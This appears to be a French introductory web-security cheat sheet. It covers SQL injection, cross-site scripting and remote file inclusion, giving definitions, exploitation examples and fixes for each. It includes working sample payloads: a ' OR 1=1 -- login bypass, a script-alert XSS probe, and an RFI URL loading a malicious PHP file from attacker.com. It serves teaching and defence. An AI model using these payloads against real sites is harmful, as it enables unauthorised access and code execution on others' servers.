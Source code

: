```**********************************************************************************************************************************************```

# Low - Injection SQL (SQLi)
## Définition:
L'injection SQL permet à un attaquant d'insérer (ou "injecter") du code SQL malveillant dans une requête SQL. Cela peut permettre à l'attaquant de manipuler des bases de données pour exfiltrer des informations sensibles, modifier des données ou même prendre le contrôle de la base de données.
## Comment l'utiliser:
Si tu as une page qui prend des entrées utilisateur, comme un champ de connexion, tu peux essayer d'injecter une commande SQL malveillante. Par exemple, dans un champ de "username", tu peux essayer: ```' OR 1=1 --```
Cette chaîne contourne la vérification du mot de passe en rendant la condition toujours vraie.
## Solution :
- Utiliser des requêtes préparées avec des paramètres liés.
- Valider et filtrer toutes les entrées des utilisateurs.
- Utiliser des comptes avec des privilèges limités sur la base de données.

# Medium - Cross-Site Scripting (XSS)
## Définition:
Le Cross-Site Scripting (XSS) permet à un attaquant d'injecter du code JavaScript malveillant dans une page web, qui sera ensuite exécuté dans le navigateur des utilisateurs lorsqu'ils consultent la page.
## Exploitation:
Par exemple, un attaquant peut injecter ce code dans un champ de commentaire vulnérable sur un site web: ```<script>alert('XSS')</script>```
Cela affichera une alerte dans le navigateur de la victime.
## Solution :
- Encoder toutes les sorties des données utilisateurs (par exemple, utiliser htmlspecialchars() en PHP).
- Mettre en place une politique de sécurité du contenu (CSP) pour restreindre les scripts non autorisés.
- Valider et assainir les entrées utilisateur, notamment les champs de formulaire.

# High - Remote File Inclusion (RFI)
## Définition:
L'attaque Remote File Inclusion (RFI) permet à un attaquant d'inclure un fichier malveillant depuis une URL externe. Si un site permet l'inclusion de fichiers sans validation, un attaquant peut injecter un fichier PHP malveillant, entraînant souvent l'exécution de code sur le serveur.
## Exploitation:
Par exemple, si un site web utilise un paramètre comme include.php?file=page.txt, un attaquant pourrait injecter : ```http://attacker.com/malicious_file.php```
Cela chargerait un fichier PHP malveillant depuis un serveur externe.
## Solution :
- Désactiver l'option allow_url_include dans PHP.
- N'accepter que des fichiers locaux pour l'inclusion et les valider.
- Utiliser une liste blanche de fichiers autorisés à inclure.

```****************************************************************************************************************************************************```
```****************************************************************************************************************************************************```
```****************************************************************************************************************************************************```

# Comment exploiter ces vulnérabilités
## SQL Injection (SQLi)
1) Exploitation simple :
- Injecter une chaîne comme ' OR 1=1 -- dans un champ de formulaire comme username.
- Cela modifie la requête SQL pour que la condition 1=1 soit toujours vraie, contournant la vérification du mot de passe.
2) Exemple :
- Sur une page de connexion, l'attaquant entre :
    - username: ' OR 1=1 --
    - password: (vide)
- La requête SQL devient SELECT * FROM users WHERE username='' OR 1=1 --' AND password='', ce qui renvoie toujours un résultat.

## XSS (Cross-Site Scripting)
1) Exploitation simple :
- Injecter un script JavaScript malveillant dans un champ vulnérable (comme un commentaire), qui sera ensuite exécuté dans le navigateur de l'utilisateur.
2) Exemple :
- Dans un champ de commentaire, l'attaquant entre: ```<script>alert('XSS')</script>```
- Lorsque quelqu'un consulte la page, ce script est exécuté dans son navigateur, affichant l'alerte.

## RFI (Remote File Inclusion)
1) Exploitation simple :
- Si le site inclut des fichiers via un paramètre comme include.php?file=page.txt, l'attaquant peut soumettre une URL externe pointant vers un fichier PHP malveillant.
2) Exemple :
- Si le site permet l'inclusion de fichiers, l'attaquant pourrait soumettre : ```http://attacker.com/malicious_file.php```
- Cela chargerait un fichier PHP malveillant et l'exécuterait sur le serveur.

```****************************************************************************************************************************************************```
```****************************************************************************************************************************************************```
```****************************************************************************************************************************************************```

# Comment résoudre ces vulnérabilités
## SQL Injection (SQLi)
1) Utiliser des requêtes préparées et des paramètres liés pour éviter l'injection.
2) Valider et filtrer toutes les entrées des utilisateurs.
3) Donner des privilèges limités aux comptes de la base de données (par exemple, en lecture seule pour les requêtes publiques).

## XSS (Cross-Site Scripting)
1) Encoder toutes les sorties pour éviter que le JavaScript soit exécuté (par exemple, avec htmlspecialchars()).
2) Mettre en place une Content Security Policy (CSP) pour limiter les sources de scripts autorisés.
3) Valider et filtrer toutes les entrées utilisateur dans les formulaires et autres champs.

## RFI (Remote File Inclusion)
1) Désactiver allow_url_include dans PHP.
2) Valider soigneusement les fichiers acceptés pour inclusion (n'accepter que des fichiers locaux).
3) Utiliser une liste blanche des fichiers autorisés à être inclus.

```****************************************************************************************************************************************************```
```****************************************************************************************************************************************************```
```****************************************************************************************************************************************************```